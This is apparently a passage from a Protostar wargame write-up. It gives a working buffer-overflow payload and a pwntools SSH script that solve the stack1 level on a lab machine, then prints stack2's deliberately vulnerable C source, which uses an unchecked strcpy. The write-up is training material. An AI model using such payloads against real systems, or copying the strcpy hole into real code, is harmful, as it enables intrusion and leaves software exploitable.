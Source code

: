 To writte the address it has to be in little endian, you can do it manually or use pwntools and p32(0x61626364)
```bash
./stack1 $(python -c "print 'A'*64+'\x64\x63\x62\x61')
```
\
Now I scripted it:
```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)

#payload = b'a'*64 + p32(0x61626364)
p = s.run('sh')
p.sendline('/opt/protostar/bin/stack1' + ' ' + 'a'*64 + '\x64\x63\x62\x61')
p.interactive()
```

<br/>

## Stack 2

Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
